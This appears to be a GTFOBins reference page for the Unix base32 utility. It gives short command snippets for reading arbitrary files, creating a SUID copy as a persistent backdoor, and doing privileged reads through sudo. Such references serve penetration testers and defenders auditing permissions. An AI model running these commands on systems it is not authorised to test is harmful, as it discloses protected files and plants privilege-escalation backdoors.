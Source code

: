 # GTFOBin: base32

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
base32 "$LFILE" | base32 --decode
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which base32) .

LFILE=file_to_read
base32 "$LFILE" | base32 --decode
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo base32 "$LFILE" | base32 --decode
```